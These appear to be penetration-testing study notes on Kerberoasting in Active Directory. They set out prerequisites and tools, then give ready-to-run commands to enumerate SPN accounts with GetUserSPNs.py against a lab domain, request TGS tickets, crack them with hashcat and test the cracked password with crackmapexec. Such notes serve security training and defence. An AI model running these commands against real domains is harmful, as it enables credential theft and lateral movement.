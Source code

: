 Lateral movement / privilege escalation technique that utilizes Service Principal Names (SPNs)

Service tickets (TGS) to access service within domain.
If you gain TGS ticket, you still need to crack it offline.

What you need:
- Cleartext password (or NTLM hash)
- a shell in the contxt of a domain user account
- SYSTEM level access on a domain-joined host

Can be performed:
- From a non-domain joined Linux host using valid domain user credentials
- From a domain-joined Linux host as root after retrieving the keytab file
- From a domain-joined Windows host authenticated as a domain user
- From a domain-joined Windows host with a shell in the context of a domain account
- As SYSTEM on a domain-joined host
- From a non-domain joined Windows host using runas /netonly

Tools:
- Impacket's GetUserSPNs.py from a non-domain joined Linux host
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz
- From Windows, utilizing tools such as PowerView, Rubeus, and other PowerShell scripts

## Installing Impacket using Pip
```shell-session
sudo python3 -m pip install .
GetUserSPNs.py -h
```

**Listing SPN Accounts with GetUserSPNs.py
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

**Requesting all TGS Tickets
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

**Requesting a Single TGS ticket
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

**Saving the TGS Ticket to an Output File to crack offline with hashcat
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

**Cracking the Ticket Offline with Hashcat
```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

**Testing Authentication against a Domain Controller
```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
